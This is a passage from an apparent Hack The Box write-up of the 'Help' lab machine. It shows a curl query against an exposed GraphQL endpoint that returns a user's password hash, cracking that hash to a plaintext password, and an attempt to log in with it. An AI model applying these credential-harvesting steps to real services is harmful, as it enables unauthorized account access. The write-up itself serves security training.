 We can then view these with:

```
┌──(ryan㉿kali)-[~/HTB/Help]
└─$ curl http://help.htb:3000/graphql -H "Content-Type: application/json" -d '{ "query": "{ user { username password } }" }'| jq
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   141  100    96  100    45    645    302 --:--:-- --:--:-- --:--:--   952
{
  "data": {
    "user": {
      "username": "helpme@helpme.com",
      "password": "5d3c93182bb20f07b994a7f617e99cff"
    }
  }
}
```

Interestingly `User` with a capital C failed, but `user` did not:

```
"message": "Cannot query field \"User\" on type \"Query\". Did you mean \"user\"?",
```
We can then paste this hash into crackstation to crack it:

![help_crack.png](../assets/help_assets/help_crack.png)

`helpme@helme.com:godhelpmeplz`

Trying to use these credentials to login to the helpdeskz site we get this error:

![help_csrf.png](../assets/help_assets/help_csrf.png)
